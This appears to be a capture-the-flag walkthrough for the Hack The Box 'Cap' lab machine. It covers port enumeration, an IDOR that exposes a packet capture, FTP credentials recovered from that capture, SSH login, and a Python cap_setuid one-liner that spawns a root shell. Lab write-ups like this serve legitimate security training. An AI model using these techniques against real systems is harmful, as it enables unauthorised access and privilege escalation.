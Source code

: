 # CTF: [HTB Cap](https://app.hackthebox.eu/machines/Cap)

## Enumeration
```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
```
Navigate the website on port 80. It seems like we are already logged in as the admin. Check out the Security Dashboard.
<br/><br/>
Append a '0' to the URL instead of '1', watch the number of packets go up.
<br/><br/>
http://10.10.10.245/data/1 > http://10.10.10.245/data/0
<br/><br/>
Download the .pcap file. Open the file, somewhere in it should contain some credentials.
```
s�^@^@USER nathan
Vw�`�J^A^@8^@^@^@8^@^@^@^@^D^@^A^@^F^@^L)� �^@^@^H^@E^@^@(su@^@@^F�����^P���^A^@^Uԋ^["\�`�x_P^P^A�      ~^@^@Vw�`$>
Vw�`��^A^@>^@^@^@>^@^@^@^@^@^@^A^@^F^@PV�^@^H^@^@^H^@E^@^@(^N%@^@�^F�G���^A���^Pԋ^@^U`�x_^["]^LP^P^P
p�^@^@^@^@^@^@^@^@Ww�`��^E^@N^@^@^@N^@^@^@^@^@^@^A^@^F^@PV�^@^H^@^@^H^@E^@^@>^N&@^@�^F�0���^A���^Pԋ^@^U`�x_^["]^LP>
J�^@^@PASS Buck3tH4TF0RM3!
```
Log in with these credentials through SSH:
```
$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Sep 28 11:26:38 UTC 2021

  System load:  0.0               Processes:             223
  Usage of /:   36.7% of 8.73GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.10.10.245
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ 
```
# user.txt
The user flag should be in Nathan's home directory.
# Privilege escalation
Run `getcap -r / 2>/dev/null`.
```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
`/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip` looks interesting. Find out more about this on [GTFOBins](https://gtfobins.github.io/gtfobins/python/).<br><br/>
"If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID."
Execute this command to escalate to root:
```
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Navigate to /root and find the root flag.
